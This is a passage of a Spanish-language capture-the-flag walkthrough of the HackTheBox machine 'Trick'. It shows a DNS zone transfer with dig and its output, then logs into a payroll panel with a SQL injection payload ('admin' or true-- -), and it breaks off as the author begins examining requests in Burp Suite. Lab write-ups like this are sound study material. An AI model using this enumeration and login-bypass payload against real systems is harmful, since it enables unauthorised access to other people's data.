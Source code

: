 En el puerto 53 tenemos un dns intentaremos atacarlo con <i>dig</i>, ingresando
a la ip: <i>10.10.11.166</i> de la maquina vemos un formulario de correo en este caso vamos directo al ataque de la <i>DNS</i>.

<img
src="https://res.cloudinary.com/djc1umong/image/upload/v1686608798/trick_first_oyi6bi.webp"
alt="trick.htb image"
width={600}
height={378}
/>

```bash
root@loe# dig axfr trick.htb @10.10.11.166
; <<>> DiG 9.16.27-Debian <<>> axfr trick.htb @10.10.11.166
;; global options: +cmd
trick.htb.		604800	IN	SOA	trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
trick.htb.		604800	IN	NS	trick.htb.
trick.htb.		604800	IN	A	127.0.0.1
trick.htb.		604800	IN	AAAA	::1
preprod-payroll.trick.htb. 604800 IN	CNAME	trick.htb.
trick.htb.		604800	IN	SOA	trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
;; Query time: 356 msec
;; SERVER: 10.10.11.166#53(10.10.11.166)
;; WHEN: Mon Sep 19 17:09:50 -04 2022
;; XFR size: 6 records (messages 1, bytes 231)

```

Agregamos el nuevo subdominio al <i>/etc/hosts</i>, preprod-payroll.trick.htb e ingresamos a la pagina vemos que nos
redirige a <i>http://preprod-payroll.trick.htb/login.php</i> con un panel de login. Hechemos un vistaso al codigo
fuente <i>ctrl + u</i> al final notamos que hace la peticion a:

<img
src="https://res.cloudinary.com/djc1umong/image/upload/v1686608818/trick_preprod_login_code_zfazt3.webp"
alt="trick.htb image"
width={600}
height={311}
/>

Intentemos inyectar SQL <i>admin' or true-- -</i> en el <i>Username</i> ¡wala! nos deja ingresar... vaya seguridad

<img
src="https://res.cloudinary.com/djc1umong/image/upload/v1686608836/trick_login_coelis.webp"
alt="trick.htb image"
width={600}
height={311}
/>

en este punto sacamos el <i>burpsuite</i> y notamos que las peticiones lo hace al mismo archivo <i>/var/www/payroll/admin_class.php</i>, cuando
ingresamos por la url vemos lo siguiente:
